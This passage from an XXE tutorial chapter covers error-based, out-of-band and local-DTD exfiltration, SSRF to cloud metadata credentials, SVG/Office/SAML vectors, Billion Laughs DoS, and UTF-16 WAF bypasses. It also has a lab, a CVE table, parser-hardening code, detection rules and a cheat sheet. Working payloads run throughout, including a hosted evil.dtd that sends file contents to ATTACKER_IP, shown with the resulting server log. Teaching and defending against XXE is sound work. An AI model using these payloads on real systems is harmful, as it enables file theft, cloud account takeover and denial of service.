java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin (No such file or directory)
```

### 7.2 Local, self-contained error-based (no external DTD)

Some parsers (notably certain libxml2 versions) let you do this entirely inside the internal subset
by re-declaring a parameter entity — no hosted DTD required:

```xml
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///etc/passwd">
  <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
  %eval;
  %error;
]>
<data>test</data>
```

Whether the fully-internal version works depends on the parser's handling of parameter entities in
the internal subset (many reject nested parameter-entity references there — hence the external-DTD
form in 7.1 being more reliable). Try internal first (one request, no infrastructure); fall back to
the hosted external DTD if it is rejected.

### 7.3 When to reach for error-based

Error-based shines when: outbound network is fully blocked (so OOB is dead) *but* the app leaks
stack traces, and the file fits in whatever the error message will print (often truncated at a few
hundred to a few thousand characters). It is the natural fallback between OOB (Part 6) and local-DTD
reuse (Part 9).

---

## Part 8: Beyond File Reads — SSRF, and XXE Where You Don't See Raw XML

XXE is not only about reading `/etc/passwd`. Two directions matter for real-world impact: turning the
external-entity fetch into full-blown SSRF, and finding XXE where the XML is hidden inside another
format.

### 8.1 XXE-to-SSRF

Because `SYSTEM "http://..."` makes the *server* issue the request, XXE is one of the cleanest SSRF
primitives available. Point the entity at internal-only addresses:

```xml
<!DOCTYPE r [ <!ENTITY xxe SYSTEM
  "http://169.254.169.254/latest/meta-data/iam/security-credentials/"> ]>
<r>&xxe;</r>
```

Against AWS this walks the **instance metadata service (IMDSv1)** and, with a second request to the
role name, returns temporary AWS credentials (`AccessKeyId`, `SecretAccessKey`, `Token`) — a routine
XXE-to-cloud-account-takeover chain. Other high-value internal targets: `http://localhost:8080/`
admin panels, internal `http://consul:8500/`, Kubernetes `https://10.0.0.1/`, and redis/elasticsearch
on internal ports. **Bug-bounty note:** many programs that scope "SSRF" and "XXE" as separate bugs
will pay for the *chain* — demonstrate the metadata credential read (then stop) rather than just the
`/etc/passwd` read, because the impact is dramatically higher. **Blue-team relevance:** IMDSv2's
session-token requirement (a `PUT` to get a token first) breaks this exact XXE-GET-based path, which
is why enforcing IMDSv2 is a standard cloud hardening control.

Caveat: XXE-SSRF often only lets you *trigger* a GET and see the response reflected/exfiltrated; you
cannot set arbitrary headers or methods the way a dedicated SSRF via a URL parameter might. Redirects
are sometimes followed, sometimes not, depending on parser. Still, for read-only internal endpoints
it is devastating.

### 8.2 SVG file upload

**SVG (Scalable Vector Graphics)** is XML. Any feature that accepts an image and *processes* it
server-side (avatar upload, thumbnailing with a library that parses SVG, PDF rendering) may parse
your DTD. A weaponised SVG that reads a file and renders it as text:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
<svg xmlns="http://www.w3.org/2000/svg" width="200" height="200">
  <text x="10" y="20">&xxe;</text>
</svg>
```

If the server rasterises the SVG to PNG, the file contents appear *rendered into the image* — a
beautiful in-band leak through an image pipeline. **CTF angle:** SVG-upload XXE is a staple of web
CTFs and PortSwigger-style labs precisely because the render-back gives a clean in-band oracle.

### 8.3 Office Open XML (.docx / .xlsx / .pptx) and ODF

A `.docx` is a ZIP archive of XML parts. If a server ingests uploaded Office documents (resume
parsers, document converters, "import" features), you can unzip, inject a DOCTYPE into
`word/document.xml` (or `[Content_Types].xml`), rezip, and upload. `oxml_xxe` (Part 4.4) automates
exactly this. The same applies to `.odt`/`.ods` (OpenDocument) and to any XMP metadata block inside
images and PDFs.

```bash
# Manual approach sketch
unzip doc.docx -d doc/
# edit doc/word/document.xml — add <!DOCTYPE ...> with an OOB entity at the top
cd doc && zip -r ../evil.docx . && cd ..
# upload evil.docx to the parser
```

### 8.4 SOAP and SAML

SOAP requests are pure XML — inject the DOCTYPE right after the XML declaration, before
`<soap:Envelope>`. **SAML** is higher-stakes: the `SAMLResponse` parameter is base64-encoded XML
parsed by the Service Provider. Historically many SAML libraries parsed with DTDs enabled, making the
SSO endpoint XXE-vulnerable (and, separately, prone to signature-wrapping). Test SAML endpoints by
decoding the base64, injecting a DOCTYPE, re-encoding — but tread carefully, as auth infrastructure is
sensitive and often out of scope.

---

## Part 9: XInclude and Local DTD Reuse — Exploiting Hardened Parsers

Two techniques for the cases where you *cannot* inject a full DOCTYPE, or where external DTD fetches
are blocked.

### 9.1 XInclude — no DOCTYPE required

Sometimes you control only a *fragment* of a larger document the server assembles — you cannot add a
`<!DOCTYPE>` because you are not at the top of the document. **XInclude** is a separate XML feature
that lets one document pull in another, and it works *without* a DOCTYPE, from inside an element:

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

If the server-side parser has XInclude processing enabled (common with Java's `DocumentBuilder` when
`setXIncludeAware(true)`, and in some Spring/older frameworks), this reads the file with no DOCTYPE at
all. `parse="text"` reads raw bytes as text; drop it and you can pull in XML sub-trees. This is the
go-to when your input is embedded mid-document (e.g. a single form field spliced into a server
template).

### 9.2 Local DTD reuse — exfiltrate with zero outbound network

The hardest scenario: the parser blocks external entities from being *fetched* over the network (no
`http://evil.dtd`), so classic OOB is dead — but it still processes parameter entities. The technique,
popularised by Arseniy Sharoglazov, **repurposes a DTD file already present on the target's disk**.
You redefine one of the local DTD's parameter entities to smuggle in your error-based exfil logic.

A canonical example abuses a GNOME DTD present on many Linux systems,
`/usr/share/yelp/dtd/docbookx.dtd`, which defines a parameter entity `ISOamso`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
  <!ENTITY % ISOamso '
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
  '>
  %local_dtd;
]>
<foo>test</foo>
```

The parser loads the local DTD (`%local_dtd;`), but because we *redefined* `%ISOamso;` *before* it is
used inside that DTD, our malicious version runs — triggering an error-based leak of `/etc/passwd`
with **no network egress whatsoever**. The heavy `&#x25;`/`&#x26;` encoding is because we are nesting
entity declarations three deep and must defer each `%`/`&` from being interpreted too early.

**Finding a usable local DTD** is the work: candidates differ by OS and installed packages. Common
ones to try (each defines a parameter entity you overload):

| DTD path | Parameter entity to override | Typical platform |
|----------|------------------------------|------------------|
| `/usr/share/yelp/dtd/docbookx.dtd` | `%ISOamso;` | Linux with GNOME/yelp |
| `/usr/share/xml/fontconfig/fonts.dtd` | `%constant;` | Linux with fontconfig |
| `C:\Windows\System32\wbem\xml\cim20.dtd` | `%SuperClass;` | Windows |
| `/usr/share/yelp/dtd/docbookx.dtd` | `%xmlpe;` (some versions) | Linux |

This is the technique that revives "dead" blind XXE on egress-locked targets — a favourite in
advanced labs and real high-value engagements.



---

## Part 10: Denial of Service and Filter/WAF Bypasses

### 10.1 Billion Laughs (entity expansion DoS)

Entities can reference other entities. Nest them and the expansion grows exponentially — the classic
**Billion Laughs** attack. Ten levels of ten references each is 10^9 "lol"s, gigabytes of memory from
a tiny document:

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
]>
<lolz>&lol5;</lolz>
```

A related variant, **quadratic blowup**, uses one huge entity referenced many times to dodge the
exponential-depth limits some parsers added. **Ethics:** DoS payloads can knock a service over — never
fire these at production without explicit written authorisation and a maintenance window; usually you
*report the primitive* (that entity expansion is unbounded) rather than actually exhaust the target.
Well-configured parsers cap entity expansion (libxml2's `XML_PARSE_HUGE` off by default, Java's
`FEATURE_SECURE_PROCESSING`, .NET limits), which is precisely the defense.

### 10.2 Filter and WAF bypasses

When a WAF or naive filter tries to block `<!DOCTYPE` or `<!ENTITY`, several evasions apply:

| Bypass | Technique | Notes |
|--------|-----------|-------|
| **Encoding declaration** | Set `<?xml version="1.0" encoding="UTF-16"?>` and send the body as UTF-16 | Signature filters scanning for ASCII `<!ENTITY` miss the UTF-16 bytes |
| **UTF-7 / other encodings** | Encode the DOCTYPE in an alternate charset the parser accepts | Parser decodes; regex WAF does not |
| **Whitespace / newlines** | `<!DOCTYPE\n foo\n [ ...` — split keywords across lines/tabs | Defeats brittle single-line regexes |
| **XInclude instead of DOCTYPE** | Use `<xi:include>` (Part 9.1) | No `<!DOCTYPE>` token for the WAF to match |
| **Nested/param entities** | Hide the `file://` inside an external DTD | Only `evil.dtd` reference is on the wire; payload is off-host |
| **`PUBLIC` identifier form** | `<!ENTITY xxe PUBLIC "id" "file:///etc/passwd">` | Alternate to `SYSTEM`, occasionally unfiltered |

The UTF-16 encoding bypass is the highest-value one to remember: convert the whole payload with
`iconv -f UTF-8 -t UTF-16BE payload.xml`, send with the matching declaration, and content-inspection
WAFs scanning for ASCII entity keywords sail right past it.

```bash
# Produce a UTF-16 encoded XXE body to defeat ASCII signature matching
iconv -f UTF-8 -t UTF-16BE payload.xml > payload-utf16.xml
```

---

## Part 11: Parser Behaviour by Language — Where the Bug Is Default-On

XXE risk is almost entirely a function of *which parser* and *how it was configured*. This is the
single most useful reference in the chapter when you are trying to predict, or fix, behaviour.

| Language / parser | Historical default | Notes for testing & fixing |
|-------------------|--------------------|-----------------------------|
| **PHP `libxml`** | External entities **off by default since libxml 2.9** | Older stacks or code calling `libxml_disable_entity_loader(false)` re-enable it. `php://filter` base64 read is the signature PHP move. |
| **Java `DocumentBuilderFactory` / SAXParser / XMLReader** | External entities & DTDs **ON by default** | The classic XXE-vulnerable stack. Also honours `ftp://`, `netdoc://`, `jar:`. Fix with `FEATURE_SECURE_PROCESSING` + disallow-doctype. |
| **Java `TransformerFactory` / `SAXTransformerFactory` / XPath** | Often ON | Set `ACCESS_EXTERNAL_DTD`/`ACCESS_EXTERNAL_STYLESHEET` to `""`. |
| **Java `SAXReader` (dom4j) / JAXB / Unmarshaller** | Frequently ON | Very common in enterprise; harden the underlying `XMLReader`/`XMLStreamReader`. |
| **.NET `XmlDocument` / `XmlTextReader`** | Vulnerable **before .NET 4.5.2** (DTD on) | `XmlResolver = null` and `DtdProcessing = Prohibit` to fix; modern defaults safer. |
| **.NET `XDocument` / LINQ-to-XML** | Safer default (no DTD resolution) | Still verify `XmlReaderSettings`. |
| **Python `xml.etree.ElementTree` / minidom / sax** | Does **not** expand external entities by default (safe-ish) | But vulnerable to billion-laughs; `lxml` differs. |
| **Python `lxml`** | External entity resolution **off by default**, `no_network=True` | `etree.XMLParser(resolve_entities=True)` re-introduces the bug; `defusedxml` is the safe wrapper. |
| **libxml2 (C, and everything built on it)** | `XML_PARSE_NOENT`/`XML_PARSE_DTDLOAD` off by default | The local-DTD error-based trick targets libxml2 specifically. |
| **Ruby REXML / Nokogiri** | Nokogiri **off by default**; enabling `NOENT` re-adds it | REXML historically expanded entities (DoS). |

The pattern: **Java is the perennial offender** (secure-by-default only if you *explicitly* harden
it), PHP flipped safe at libxml 2.9, .NET flipped safe at 4.5.2, and Python's stdlib is mostly safe
for entity resolution but not for DoS. When you fingerprint the stack (via error messages, headers,
behaviour), let this table set your expectation for which payloads will land.

---

## Part 12: Hands-On Lab — From First Probe to Blind OOB Exfiltration

This lab is fully reproducible on a local vulnerable target. We stand up a deliberately broken Java
service, then walk the complete methodology: confirm parsing, in-band read, pivot to blind, and OOB
exfiltrate — with the exact commands, flags, and the output you would actually see.

### 12.1 Stand up the target

Any XXE lab works; we use a minimal container so the commands are concrete. Use a throwaway VM.

```bash
# Attacker box (Kali). Pull a known-vulnerable XXE lab app.
docker run --rm -d -p 8080:8080 --name xxe-lab vulhub/xxe-lab   # illustrative image name
# Confirm it's up
curl -s -X POST http://localhost:8080/xxe/index.php \
  -H 'Content-Type: application/xml' \
  --data '<?xml version="1.0"?><user><username>a</username><password>b</password></user>'
# => <result>Hello a</result>   (the username is reflected — our oracle)
```

The `username` field is echoed back — a reflection oracle for in-band testing.

### 12.2 Step 1 — confirm the parser processes a DTD (harmless proof)

Never lead with `/etc/passwd`. First prove entity expansion with a *benign internal* entity, which
touches no files and no network:

```bash
curl -s -X POST http://localhost:8080/xxe/index.php \
  -H 'Content-Type: application/xml' \
  --data '<?xml version="1.0"?>
<!DOCTYPE user [ <!ENTITY probe "XXE-OK"> ]>
<user><username>&probe;</username><password>b</password></user>'
# => <result>Hello XXE-OK</result>
```

`&probe;` expanded — the parser processes internal DTD entities. That single benign response is
enough to justify escalating within an authorised scope, without yet reading anything sensitive.

### 12.3 Step 2 — in-band file read

```bash
curl -s -X POST http://localhost:8080/xxe/index.php \
  -H 'Content-Type: application/xml' \
  --data '<?xml version="1.0"?>
<!DOCTYPE user [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
<user><username>&xxe;</username><password>b</password></user>'
# => <result>Hello 6f3c9a2b1d44</result>   (the container hostname — a benign proof file)
```

We deliberately read `/etc/hostname` (non-sensitive) rather than `/etc/passwd` as the *proof of
concept*: it demonstrates arbitrary file read without exposing account data. Note the finding, and
only read a more sensitive path if the engagement explicitly requires demonstrating deeper impact.

### 12.4 Step 3 — the same app, now made blind

Reconfigure (or move to an endpoint) where the username is *not* reflected — the response is a fixed
`<result>Processed</result>`. The in-band payload now shows nothing. Confirm blind via OOB:

```bash
# Start interactsh (or copy a Burp Collaborator payload). It prints your unique domain.
interactsh-client
# => using domain: k9d2f1.oast.pro

curl -s -X POST http://localhost:8080/xxe/blind.php \
  -H 'Content-Type: application/xml' \
  --data '<?xml version="1.0"?>
<!DOCTYPE user [ <!ENTITY % xxe SYSTEM "http://k9d2f1.oast.pro/probe"> %xxe; ]>
<user><username>a</username><password>b</password></user>'
# interactsh-client console:
# [k9d2f1.oast.pro] Received DNS interaction from 172.17.0.3
# [k9d2f1.oast.pro] Received HTTP interaction from 172.17.0.3 (GET /probe)
```

The DNS + HTTP hit from the container's IP confirms blind XXE — even with a fixed response body.

### 12.5 Step 4 — OOB exfiltration of a file

Host the malicious external DTD from Part 6 and trigger it:

```bash
# Attacker: create evil.dtd
cat > evil.dtd <<'EOF'
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://ATTACKER_IP:8000/collect?x=%file;'>">
%eval;
%exfil;
EOF

# Serve it and watch for the exfil callback
python3 -m http.server 8000
```

Trigger from the target:

```bash
curl -s -X POST http://localhost:8080/xxe/blind.php \
  -H 'Content-Type: application/xml' \
  --data '<?xml version="1.0"?>
<!DOCTYPE user [ <!ENTITY % xxe SYSTEM "http://ATTACKER_IP:8000/evil.dtd"> %xxe; ]>
<user><username>a</username><password>b</password></user>'
```

Attacker's `http.server` log:

```
172.17.0.3 - - "GET /evil.dtd HTTP/1.0" 200 -
172.17.0.3 - - "GET /collect?x=6f3c9a2b1d44 HTTP/1.0" 404 -
#                             ^^^^^^^^^^^^ /etc/hostname contents exfiltrated blind
```

You have now walked the full ladder: parse-confirm → in-band → blind-confirm → OOB-exfil. That is
the exact sequence to follow on a real engagement (substituting your own Collaborator domain and
authorised, minimal proof files).

### 12.6 Step 5 — automate the enumeration (only after manual confirmation)

```bash
# Save the blind request (with DOCTYPE spot marked XXEINJECT) to req.txt, then:
ruby XXEinjector.rb --host=ATTACKER_IP --httpport=8000 --file=req.txt \
     --path=/etc --oob=http --phpfilter
# XXEinjector enumerates /etc, hosts the DTD, and reassembles files via the OOB channel.
```

---

## Part 13: Real-World Cases and CVEs

XXE has produced a long line of high-impact, real disclosures — it is not a theoretical bug:

| Case / CVE | Product | Impact |
|------------|---------|--------|
| **CVE-2014-3660** | libxml2 (Billion Laughs / entity expansion) | DoS across everything built on libxml2 |
| **CVE-2016-3081 / Struts-family XML** | Apache Struts REST plugin (XStream) | XML parsing → RCE-class impact in enterprise Java apps |
| **CVE-2018-1000840** | SmartXLS | XXE via crafted spreadsheet parsing |
| **CVE-2019-0192 / Solr** | Apache Solr | XXE via config/DIH XML → SSRF and file read |
| **Facebook DELETE XXE (2014)** | Facebook (bug bounty) | XXE in a partner tool — landmark large-payout disclosure |
| **Google/Uber/Shopify XXE reports** | Various HackerOne programs | Repeated file-read + SSRF-to-metadata chains, four/five-figure bounties |
| **CVE-2018-20434 / LibreNMS, and many SAML libs** | SSO / SAML processors | XXE in identity-critical XML parsing |
| **PostSwigger / DocuSign / SharePoint XXE classes** | Document & collaboration platforms | Office/OOXML upload → XXE |

The through-line: XXE surfaces wherever XML is parsed *and* the parser was left in its historical
default — SOAP APIs, SAML, XML config importers, document/image upload pipelines, and Java
serialization libraries that ride on XML. **IR use case:** when triaging a suspected XXE incident,
the CVE and product context tells you which files/endpoints the attacker most likely reached (e.g.
Solr DIH → `solrconfig.xml` and internal SSRF), scoping your log review.

---

## Part 14: Detection & Defense Angle

This is the consolidated defensive section. XXE is one of the *cleanest* bug classes to eliminate,
because you almost never need external entities or DTD processing — so you turn them off.

### 14.1 The one rule that kills the class: disable DTDs

The single most effective control is **disallowing DOCTYPE declarations entirely**. If the parser
rejects any document containing a DTD, every entity-based technique in this chapter is dead. Per
stack:

**Java (`DocumentBuilderFactory`):**

```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
// The nuclear option — reject any DOCTYPE outright (OWASP-recommended):
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
// Belt-and-braces if you cannot disallow DOCTYPE for some reason:
dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
dbf.setXIncludeAware(false);
dbf.setExpandEntityReferences(false);
```

**Java `TransformerFactory` / SAX / StAX:** set `XMLConstants.FEATURE_SECURE_PROCESSING` to `true`
and `ACCESS_EXTERNAL_DTD` / `ACCESS_EXTERNAL_STYLESHEET` to `""`.

**.NET:**

```csharp
var settings = new XmlReaderSettings {
    DtdProcessing = DtdProcessing.Prohibit,   // reject DTDs
    XmlResolver  = null                        // never resolve external refs
};
```

**PHP (libxml ≥ 2.9 is safe by default; do not re-enable):**

```php
// Do NOT call libxml_disable_entity_loader(false). On modern PHP, defaults are safe.
$dom = new DOMDocument();
$dom->loadXML($xml, LIBXML_NONET);   // LIBXML_NONET blocks network access explicitly
```

**Python:** use `defusedxml` in place of the stdlib/lxml parsers:

```python
from defusedxml.ElementTree import fromstring   # blocks entities, DTDs, and DoS
tree = fromstring(untrusted_xml)
```

### 14.2 Layered controls

- **Disable DTD processing** (above) — primary control.
- **Disable external entity and parameter-entity resolution** — defence in depth.
- **Disable XInclude** unless explicitly required.
- **Cap entity expansion / document size** to stop billion-laughs even if DTDs are allowed.
- **Egress filtering** — block outbound connections from app servers to the internet and to the
  metadata IP (`169.254.169.254`); enforce **IMDSv2**. This neutralises OOB exfil and SSRF-to-metadata
  even if a parser is misconfigured.
- **Use JSON where you can** — if the endpoint does not need XML, do not accept it; reject
  `Content-Type: application/xml` outright.
- **Patch and update parsers** — many stacks flipped to safe defaults in specific versions (libxml
  2.9, .NET 4.5.2); staying current gets you safe-by-default behaviour.

### 14.3 Detection — logs and telemetry



Concrete detections:

- **WAF / request inspection:** flag request bodies containing `<!DOCTYPE`, `<!ENTITY`, `SYSTEM`,
  `PUBLIC`, or `<xi:include` in untrusted XML. (Remember attackers UTF-16-encode to evade — inspect
  after charset normalisation.)
- **Egress monitoring:** an app tier making DNS/HTTP requests to random external domains or to
  `169.254.169.254` is a strong XXE/SSRF signal. **Blue-team usage:** wire this into SIEM as a
  high-fidelity rule; app servers rarely make arbitrary outbound calls legitimately.
- **Parser error logs:** `FileNotFoundException`/`java.io.FileNotFoundException` with paths that look
  like file *contents* (colons, slashes, `root:x:0:0`) indicate error-based XXE attempts.
- **File-access auditing:** the web-app user reading `/etc/passwd`, `/etc/shadow`, or DTDs like
  `docbookx.dtd` unexpectedly is worth an alert (`auditd` on Linux).

### 14.4 The mental model for defenders

XXE is a *default-configuration* bug far more than a coding bug. The fix is almost never "sanitise
input" (you cannot reliably sanitise XML into safety) — it is **"reconfigure the parser to not do the
dangerous thing."** When you review code, you are hunting for XML parser instantiations and checking
whether DTD/entity processing was explicitly turned off. That is a fast, mechanical audit.

---

## Part 15: Final Revision / Summary

The compressed model to carry forward:

- **XXE = an XML parser resolving attacker-defined entities.** The vulnerability lives in
  DTD processing + external-entity resolution. Kill either and the bug dies.
- **Two entity types:** general (`&x;`, used in the body) and parameter (`%x;`, used in the DTD).
  Parameter entities are what make *blind* and *OOB* exploitation possible, because they bypass the
  spec restrictions that block naive general-entity exfiltration.
- **Ladder of exploitation:** benign-probe → in-band file read → SSRF → error-based → blind OOB with
  a hosted DTD → local-DTD reuse (zero egress). Always climb only as far as impact requires, and
  prove with minimal, benign evidence.
- **`php://filter` base64** for PHP file reads; **FTP OOB** for multi-line data on Java; **XInclude**
  when you cannot inject a DOCTYPE; **local-DTD reuse** when there is no network egress at all.
- **Attack surface is huge:** SOAP, SAML, REST endpoints that accept XML, SVG, Office/OOXML uploads,
  RSS, config importers. Try flipping `Content-Type` to `application/xml` on JSON endpoints.
- **Defense is decisive:** disable DOCTYPE/DTD processing, disable external+parameter entities and
  XInclude, cap expansion, filter egress + enforce IMDSv2, prefer JSON, keep parsers patched.

If you remember one sentence: **"An external entity makes the server fetch something on the
attacker's behalf; disabling DTDs stops it cold."**

---

## Part 16: Cheat Sheet / Quick Reference

**Classic in-band read**

```xml
<!DOCTYPE r [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<r>&xxe;</r>
```

**PHP base64 read (survives special chars / binaries)**

```xml
<!DOCTYPE r [ <!ENTITY xxe SYSTEM
  "php://filter/convert.base64-encode/resource=/var/www/config.php"> ]>
<r>&xxe;</r>
```

**SSRF (cloud metadata)**

```xml
<!DOCTYPE r [ <!ENTITY xxe SYSTEM
  "http://169.254.169.254/latest/meta-data/iam/security-credentials/"> ]>
<r>&xxe;</r>
```

**Blind OOB detection (parameter entity)**

```xml
<!DOCTYPE r [ <!ENTITY % xxe SYSTEM "http://COLLAB/x"> %xxe; ]>
```

**Blind OOB exfiltration — hosted `evil.dtd`**

```dtd
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://ATTACKER/?x=%file;'>">
%eval;
%exfil;
```

**Trigger for the hosted DTD**

```xml
<!DOCTYPE r [ <!ENTITY % xxe SYSTEM "http://ATTACKER/evil.dtd"> %xxe; ]>
```

**Error-based (leak via stack trace)**

```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

**XInclude (no DOCTYPE)**

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

**Billion Laughs (DoS — authorised testing only)** — see Part 10.1.

**Quick-reference table**

| Goal | Payload primitive |
|------|-------------------|
| Read text file (in-band) | `<!ENTITY xxe SYSTEM "file:///path">` + reference in reflected field |
| Read PHP/binary | `php://filter/convert.base64-encode/resource=…` |
| SSRF / internal fetch | `<!ENTITY xxe SYSTEM "http://internal/…">` |
| Confirm blind | `<!ENTITY % x SYSTEM "http://COLLAB"> %x;` |
| Exfil blind | Hosted external DTD with `%file;`+`%eval;`+`%exfil;` |
| No egress | Local-DTD reuse (override `%ISOamso;` etc.) |
| Leak via error | `file:///nonexistent/%file;` trick |
| No DOCTYPE allowed | XInclude `<xi:include>` |
| WAF blocks `<!ENTITY>` | UTF-16 encode, `PUBLIC`, or external-DTD |

**Defensive one-liners**

| Stack | Fix |
|-------|-----|
| Java | `dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);` |
| .NET | `DtdProcessing = Prohibit; XmlResolver = null;` |
| PHP | Keep libxml ≥ 2.9; `loadXML($x, LIBXML_NONET);` |
| Python | `from defusedxml.ElementTree import fromstring` |

---

## Part 17: Practice Labs & Resources

Train each specific skill in this chapter on these targets:

- **PortSwigger Web Security Academy — XXE** (free, the definitive lab set): "Exploiting XXE using
  external entities to retrieve files", "…to perform SSRF", "Blind XXE with out-of-band interaction",
  "Blind XXE with out-of-band interaction via XML parameter entities", "Exploiting blind XXE to
  exfiltrate data using a malicious external DTD", "Exploiting blind XXE to retrieve data via error
  messages", "Exploiting XXE to retrieve data by repurposing a local DTD", and the XInclude and
  SVG-upload labs. Do them in that order — it mirrors Parts 3→9 exactly.
- **TryHackMe** — "XXE Injection" room and the "Web Fundamentals"/"OWASP Top 10" XXE tasks.
- **HackTheBox** — retired web machines featuring XXE entry vectors (search the "XXE" tag; boxes like
  *Blocky*-style upload chains and API/SOAP boxes), plus HTB Academy's "XXE" module.
- **PentesterLab** — the "XML Attacks" / "XXE" badge exercises.
- **VulnHub / local** — spin up an intentionally vulnerable XXE app (e.g. the DVWA-style and
  `vulhub` XXE labs) to rehearse the OOB DTD workflow end-to-end offline.
- **Bug-bounty study** — read disclosed XXE reports on HackerOne (filter by the "XXE" weakness) to
  see real injection points and how researchers proved impact with minimal, benign evidence.
- **Reference** — the OWASP "XML External Entity Prevention Cheat Sheet" for the authoritative
  per-parser hardening snippets, and PayloadsAllTheThings' "XXE Injection" page for a payload catalog.

Work the PortSwigger set until the blind-OOB-with-external-DTD and repurpose-a-local-DTD labs are
muscle memory — those two are what separate a surface-level understanding of XXE from operational
capability, and they are exactly what real hardened targets demand.
